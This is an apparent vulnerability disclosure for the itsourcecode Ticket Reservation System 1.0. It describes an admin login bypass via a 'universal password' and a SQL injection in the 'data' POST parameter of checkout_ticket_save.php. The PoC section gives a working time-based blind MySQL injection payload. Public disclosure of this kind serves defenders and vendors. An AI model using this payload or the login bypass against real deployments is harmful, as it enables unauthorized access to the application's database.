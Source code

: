 # Vendor

itsourcecode

# Product

Ticket Reservation System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2020/09/qrcode.zip

# Description

By exploiting a universal password vulnerability to log into the admin backend, an SQL injection vulnerability occurs on the "checkout_ticket_save.php" page due to the lack of strict filtering of the data parameter.
<img width="1041" alt="image" src="https://github.com/user-attachments/assets/4dc1dbcc-3e0e-4a30-ae6d-8a781bb0f6c6">


# Poc
```
Parameter: data (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: data=123' AND (SELECT 7295 FROM (SELECT(SLEEP(5)))zbyg) AND 'JWwh'='JWwh
```
